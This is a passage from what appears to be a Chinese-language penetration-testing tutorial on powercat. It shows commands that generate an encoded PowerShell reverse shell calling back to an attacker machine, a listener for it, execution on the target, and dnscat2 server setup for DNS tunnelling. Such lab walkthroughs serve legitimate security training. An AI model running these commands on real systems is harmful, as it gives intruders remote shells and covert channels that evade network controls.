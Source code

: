 之后在靶机上，运行 ps1 文件就会上线了，如果不想生成文件，也可以使用 -ge 生成经过编码的 payload

在攻击机上生成 payload，并开启监听







```none
powercat -c 172.16.214.2 -p 4444 -ep -ge
```







```none
powercat -l -p 4444 -v
```

在靶机上执行刚生成的 payload







```none
powershell -e payload
```



![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-01_15-35-24.png)



### 建立 dns 隧道连接

powercat 的 dns 隧道是基于 dnscat 设计的，因此在服务端需要使用 dnscat 连接。

在服务端上安装 dnscat ，以 kali 为例







```none
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install
```

命令运行完之后，执行以下命令开启服务端







```none
ruby dnscat2.rb powercat -e open --no-cache
```
